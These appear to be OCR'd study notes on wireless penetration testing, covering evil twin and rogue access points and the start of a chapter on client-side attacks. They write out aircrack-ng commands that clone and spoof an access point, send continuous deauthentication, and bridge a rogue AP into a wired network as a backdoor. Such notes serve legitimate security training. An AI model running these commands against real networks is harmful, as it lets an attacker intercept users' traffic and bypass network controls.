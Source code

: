 ## Evil twin with MAC spoofing
* `airodump-ng` to get BSSID and ESSID
* `airbase-ng -a AA:AA:AA:AA:AA:AA --essid "<ESSID> -c 11
mon0"` to copy ESSID (yet not the BSSID and MAC)
* run airdump-ng again to see the new network
* `aireplay-ng --deauth 0 -a <AP BSSID> mon0` to make the
clients disconnect and connect to the twin AP (assuming the
twin AP's signal is stronger because the AP is closer)
* To spoof BSSID and MAC for the access point:
 * `airbase-ng -a <BSSID> --essid "<ESSID>" -c 11 mon0`
 * Now if you run airodump-ng, it won't even be able to
 distinguish the two networks

## Rogue access point
* It's an unauthorized AP connected to an authorized network
* Used as a backdoor to bypass all security controls on the
network
* Done in two ways:
 * Physically set up and connect to the authorized network
 * Create in software and bridge with the local authorized
 network. Allows any laptop running on the authorized
 network to become a rogue AP

## Rogue access point
* `airbase-ng --essid Rogue -c 11 mon0` to create an AP
* `brctl addbr Wifi-Bridge` to create bridge between
the Ethernet Interface (authorized network) and the rogue
AP
* `brctl addif Wifi-Bridge eth0`
* `brctl addif Wifi-Bridge at0` (at0 is the interface created
by airbase)
* `ifconfig eth0 0.0.0.0 up`
* `ifconfig at0 0.0.0.0 up`
* `echo 1 > /proc/sys/net/ipv4/ip_forward` to enable
IP forwarding in the kernel

# Chapter 6: Attacking the Client
* Shifting focus on client:
 * Honeypot and mis-association attacks
 * Caffe latte attack
 * De-auth and dis-association attacks
 * Hirte attack
 * AP-less WPA-Personal cracking

## Honeypot and Mis-Association attacks
* When a machine is turned on, it usually probes for the
networks it previously connected to. It will display any
networks available in its range
* Two choices:
 * Silently monitor the probe and bring up a fake AP
 with the ESSID the client is searching for
 * Create fake APs with same ESSIDs as the neighbouring ones
